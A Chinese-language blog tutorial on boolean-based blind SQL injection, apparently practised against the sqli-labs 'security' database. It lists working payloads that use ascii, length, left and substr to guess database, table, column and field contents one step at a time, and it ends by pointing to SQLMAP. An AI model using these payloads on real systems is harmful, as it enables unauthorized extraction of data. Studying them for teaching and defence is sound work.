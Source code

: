 ```yaml
---
title: 布尔注入与脚本自动化的简单实现
toc: true
date: 2023-07-23
updated: 2023-07-23
categories: Tech Blog
---
```


## 布尔注入简介

在注入过程中我们只能直接知道注入成功与否而不知道注入得到的回显甚至都不能直接知道注入是否成功的注入叫做盲注。盲注可能是真的是在完全黑盒情况下完全盲注，也可能通过侧信道攻击通过一些特殊手段能判断出命令执行是否成功，例如时间盲注。
<!--more-->
## 简单原理介绍

在我们能通过某种方式判断注入执行结果成功与否，例如Web页面返回True或False时，我们可以使用and,or关键字配合一些语句得到后台数据信息，包括但不限于:

- ascii()
返回字符ASCII码值
- length()
返回字符串长度
- left()
返回从左到右截取的一定长度的字符串
- substr()
返回从指定位置开始截取的一定长度的子字符串
我们可以在一句总是正确的SQL语句后使用and关键字或者在一句总是错误的语句后使用or关键字配合这些语句，通过组合后的语句的执行结果判断我们拼凑上去的语句的执行结果。在这一点的基础上，我们可以做到得到数据库名表名列名字段名等等效果

## 一般注入流程

- 求当前数据库的数据库名长度

        -- length 返回长度
        -- 8是当前数据库'security'的长度
        SELECT * from users WHERE id = 1 and (length(database())=8)
        -- 也可以使用 > 、< 符号来进一步缩小范围
        SELECT * from users WHERE id = 1 and (length(database())>8)
        -- 当长度正确就页面就显示正常，其余页面则显示错误
        -- substr 返回子字符串
        -- 8是当前数据库'security'的长度 ，从第8个开始，取1位，则是'r'
        -- 如果pos为9 那么开始位置大于字符串长度，ascii函数处理后将变成false
        -- and 后只要不为 0, 页面都会返回正常
        SELECT * from users WHERE id = 1 and ascii(substr(database(),8,1))
- 求当前数据库名

        -- 从左至右截取一个字符
        SELECT * from users WHERE id = 1 and (left(database(),1)='s')
        -- 从左只有截取两个字符
        SELECT * from users WHERE id = 1 and (left(database(),2)='se')

        SELECT * from users WHERE id = 1 AND (ASCII(SUBSTR(database(),1,1)) = 115)
        SELECT * from users WHERE id = 1 AND (ASCII(SUBSTR(database(),2,1)) = 101)

- 求当前数据库中表的个数

        SELECT * from users WHERE id = 1 AND 
        (select count(table_name) from information_schema.`TABLES` where table_schema = database()) = 4
- 求当前数据库表的表名长度

        -- length
        SELECT * from users WHERE id = 1 
        AND (LENGTH((select table_name from information_schema.`TABLES` where table_schema = database() LIMIT 0,1))) = 6
        
        -- substr
        SELECT * from users WHERE id = 1 
        AND ASCII(SUBSTR((select table_name FROM information_schema.`TABLES` where table_schema = database() LIMIT 0,1),6,1))

- 求当前数据库表的表名

        SELECT * from users WHERE id = 1 
        AND ASCII(SUBSTR((select table_name FROM information_schema.`TABLES` where table_schema = database() LIMIT 0,1),1,1)) = 101 -- e

        SELECT * from users WHERE id = 1 
        AND ASCII(SUBSTR((select table_name FROM information_schema.`TABLES` where table_schema = database() LIMIT 0,1),2,1)) = 109 -- m

- 求指定表中列的数量

        SELECT * from users WHERE id = 1 
        AND (select count(column_name) from information_schema.columns where table_name = "users") = 3

- 求指定表中列的长度

        SELECT * from users WHERE id = 1 
        AND ASCII(SUBSTR((select column_name from information_schema.columns where table_name = "users" limit 0,1),2,1))

- 求指定表中的列名

        SELECT * from users WHERE id = 1 
        AND ASCII(SUBSTR((select column_name from information_schema.columns where table_name = "users" limit 0,1),1,1)) = 105

- 求指定表中某字段的数量

        SELECT * from users WHERE id = 1 
        AND (select count(username) from users) = 13
- 求字段长度

        SELECT * from users WHERE id = 1 
        AND ASCII(SUBSTR((select username from users  limit 0,1),4,1))
- 求字段名

        SELECT * from users WHERE id = 1 
        AND ASCII(SUBSTR((select username from users  limit 0,1),1,1))  = 68

## 布尔注入的自动化

由于猜解后端信息需要执行大量的SQL注入语句，因此我们常常编写脚本自动完成这一重复性工作，例如**SQLMAP一把梭** :P
